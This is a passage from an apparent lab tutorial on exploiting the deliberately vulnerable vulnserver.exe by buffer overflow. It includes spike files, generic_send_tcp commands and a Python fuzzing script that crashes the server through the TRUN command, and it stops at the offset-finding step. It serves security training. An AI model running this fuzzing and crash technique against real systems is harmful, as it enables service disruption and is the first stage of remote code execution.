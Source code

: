 # A simple walkthrough for a windows vulnerable server (vulnserver.exe)

This tutorial is based on the "Practical Ethical Hacking - The Complete Course", a Udemy course made by Mr. Heath Adams (The Cyber Mentor)

# Requirements
- Download and install: Kali (for attacker machine) and windows 10 (victim's machine)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Vulnserver: http://www.thegreycorner.com/p/vulnserver.html

# Things to remember:
1. Make sure you disable the Windows Defender in Windows VM.
2. Allow files and printer sharing in your firewall (make sure you can ping windows VM from your Kali VM).
3. Always run Immunity Debugger (IMD) and Vulnserver.exe as Administrator.
4. Close and re-run Immunity Debugger and Vulnserver.exe after an attack from Kali machine to prevent issues.

# Steps to conduct bufferoverflow
1. Spiking 
2. Fuzzing  
3. Find the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding Right Modules (MSF)
7. Generating shellcode (MSF)
8. Root!

## I. Spiking
1. On windows, open vulnserver.exe (always run as administrator)
2. On Kali VM, try to test if Kali can connect to Windows via netcat. Usuallly, vulnserver runs on port 9999.
```
$ nc -nv 192.168.17.134 9999
```
This will be the result if you type **HELP**

	![HELP_cmd](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/HELP_command.png)

>We can use these command to test if the target is vulnerable to bufferoverflow. 
>We will try use STATS but **spoiler alert, TRUN is the correct payload for this exercise.

3. We will create files with payload and try if the target machine is vulnerable to bufferoverflow. Create a filed called '[stats.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/stats.spk)' and ‘[trun.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/trun.spk)’

>stats.spk

````spk
s_readline();
s_string("STATS ");
s_string_variable("0");
````
>trun.spk

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
4. Open **IMD** as administrator, click File > Attach > select vulnserver > click Attach > click the run icon ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png)

	![file_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/file_attach.png)

	![vulnserver_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/vulnserver_attach.png)

It will look something like this:

	![imd_vulnserver_attached_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/imd_vulnserver_attached.png)

>In the lower right you can see the status **Paused** ![paused_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/paused.png) \
>Click the run button on the menu ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png) to change the status to **Running** ![running_status](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/running.png) 

5. On Kali, run **generic_send_tcp** <target_ip> <port> <payload_file.spk> 0 0.

```
$ generic_send_tcp 192.168.17.134 9999 stats.spk 0 0
```
	![fuzzing_output_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_output.png) 

>**IMPORTANT NOTE!** Always close and re-run the IMD and vulnserver.exe as administrator before doing new attack test.

6. Check the **IMD**, **STATS** command will not make the target crash so we will try the **TRUN** command.

```
$ generic_send_tcp 192.168.17.134 9999 trun.spk 0 0
```

>Check the **IMD** again and it should look like this. We can see bunch of **A**s and hex **41414141** \
>**41** means hex of letter **A**. Four bytes of **41** is equal to hex **41414141** \
>Our payload using **TRUN** command is successful and made the vulnserver crashed!!! Now we confirmed that the server is vulnerable to bufferoverflow!

![spiking_srcshot](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/spiking_srcshot.png) 

>**Q: How and why the system crashed?** \
>A: By sending bunch of As, to the stack buffer. The stack buffer (EAX register) over flows and we successfully allocated As to the Base Pointer (EBP) and Instruction Pointer (EIP). We can see that EBP and EIP values are all 41414141


>**Q: What is EIP and why it is very important to understand?** \
>A: The Instruction Pointer (IP) is where the actual command executes!! So, if we can overwrite this, we can send malicious code and gain reverse shell.

## II. Fuzzing

1. We will automate the sending of bunch of As using python script. Make a python2 script ‘fuzz.py’ and copy paste this script.

>fuzz.py

````python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = 'A' * 100 

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.17.134', 9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1) 
		buffer = buffer + 'A' * 100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
		sys.exit()

````

> Dont forget to change its permission to executable. 

```
$ chmod +x fuzz.py
```

>**Q: What does this code do?**
>A: The script sends 100 As to the vulnserver then it adds another 100 As, so the buffers grows every iteration until it crash.

2. Close and re-run the **IMD** and **vulnserver.exe**. Re-attach vulnserver to IMD then hit the Run button. Makse sure the status is '**Runing**'.

3. Run the python2 script:

```
$ ./fuzz.py
```

4. Observe the **IMD** and wait for it to crash then immediately terminate the fuzz.py script by pressing **CTRL + C**. \
   We can see in the **IMD* that the vulserver crash by checking its status to **Paused** and also we see again the bunch of As in the **Registers** section.

   ![fuzzing_crashed](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_crashed.png)

5. We see that the vulnserver crashed at around 2200 bytes. So the Offset must be less than 2200 bytes. \
   If you CTRL + C and your result is not 2200 bytes, that's okay because the Offset must be less than what you get in the result.

## III. Finding the Offset
















































